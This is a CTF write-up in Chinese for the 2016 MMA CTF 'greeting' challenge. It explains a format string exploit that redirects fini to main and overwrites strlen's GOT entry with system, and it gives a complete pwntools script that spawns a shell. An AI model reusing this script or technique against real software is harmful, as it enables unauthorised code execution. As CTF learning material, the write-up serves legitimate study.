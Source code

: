 title: '[MMA CTF 2nd 2016] greeting'
tags:
    - format string
    - GOT hijacking
categories:
    - write-ups
date: 2016-09-06 20:33:00
---

## Description

> 程式很簡單小小的，存在 `format string` 的洞，但是卻不知道要怎樣利用，call 完 `printf` 就沒在 call 其他 function 了，然後發現有 `stack guard` 的保護，於是一直想辦法去寫爛 `canary` 然後順便把 `__stack_chk_fail` GOT hijack掉，但是想了各種方法，都失敗Orz，想過用類似 BP chain 的方式把它寫爛，但是他只讀 64bytes 實在是不夠用....
> 只能說自己經驗太少，只會往自己玩過方向走QQ，從早上看到下午都在鑽那些不能的點實在太菜了... 後來有了**@leepupu**的提示--> overwrite `fini` 才繼續解這題@@

`fini` 是一個 call 完 `main` 之後會呼叫的 function，他的 function address 在 `.bss`段，我一開始還在想要做 ROP 後來發現太麻煩了，然後這時候 trello 通知跳出來＠＠ **@bananaapple** 把作法貼了上去，不小心讀了通知，才發現他那樣做簡單又方便QQ 我的想法太蠢QQ

## Exploit

在 `getnline` 這個 function 裡頭的最後一段 code 是長這樣的：

~~~c
return strlen(s)
~~~

s 是我們輸入的 input 儲存的 char array 開頭，所以目標就是把 `fini` 改寫成 main 讓他再跑一次，然後順便改寫 `strlen` 的 GOT，改成 `system` 這麼一來 return to main 之後 input 輸入 sh，這樣一來在上面那段 return 前 就會變成 `system('sh')` shell就開起來了@@

有一點要注意的是因為他可讀的大小只有 64 bytes，所以一次改 2bytes 才不會改不完而造成程式 crash。

我的 exploit 是後來改成讓程式自己算 padding 長度，其實可以直接開 `ipython` 或啥的計算機手算也蠻快的@@

`return to main` 真好用QQ

## Final Exploit:

```python
#!/usr/bin/env python

from pwn import *

r = remote('127.0.0.1', 4000)
#r = remote('pwn2.chal.ctf.westerns.tokyo', 16317)

raw_input('#')

main = 0x080485ed
system = 0x8048490
strlen_got = 0x08049a54
fini = 0x08049950

payload = 'AA' # padding
payload += p32(strlen_got+2) # put this in first since the higher bytes i want is 0x0804 which is smaller than 0x8490 
payload += p32(strlen_got) 
payload += p32(fini) # since the address of fini is 0x0804xxxx so we just have to change its lower 2 bytes -> 0x85ed

printed = 20 + 4*3

def pad(func, p, low_or_high):
    if low_or_high != 0:
        return ((((func) & 0xffff) - p) % 0xffff + 0xffff) % 0xffff
    else :
        return ((((func >> 2*8) & 0xffff) - p) % 0xffff + 0xffff) % 0xffff

for i in range(3):
    if i < 2:
        f = system
    else :
        f = main
    padding = pad(f, printed, i)
    if padding > 0:
        payload += '%%%dc' % (padding)
    payload += '%%%d$hn' % (12+i)
    printed += padding

r.sendline(payload)

r.sendline('sh\x00')

r.interactive()
```

還有很多要學，加油吧。
